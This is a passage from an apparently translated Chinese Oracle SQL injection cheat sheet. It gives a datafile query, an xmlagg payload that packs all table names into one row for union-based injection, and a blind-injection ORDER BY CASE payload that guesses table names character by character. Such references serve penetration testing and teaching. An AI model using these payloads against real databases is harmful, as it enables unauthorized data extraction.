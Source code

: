 ```
SELECT name FROM V$DATAFILE;

```

默认系统和数据库：

```
SYSTEM
SYSAUX

```

### 额外小贴士：

一个字符串列出所有表名：

```
select rtrim(xmlagg(xmlelement(e, table_name || ‘,’)).extract(‘//text()’).extract(‘//text()’) ,’,') from all_tables 

```

– 当你union联查注入的时候只有一行能用与返回数据时使用

盲注排序：

```
order by case when ((select 1 from user_tables where substr(lower(table_name), 1, 1) = ‘a’ and rownum = 1)=1) then column_name1 else column_name2 end 

```

— 你必须知道两个拥有相同数据类型的字段名才能用

译者注：`Oracle`注入速查表的作者这边还有`MSSQL`、`MySQL`、`PostgreSQL`、`Ingres`、`DB2`、`Informix`等数据库的速查表，不过我看Drops里面`MSSQL`和`MySQL`都已经有比较好的文章了，所以如果有需求的话请在评论留言。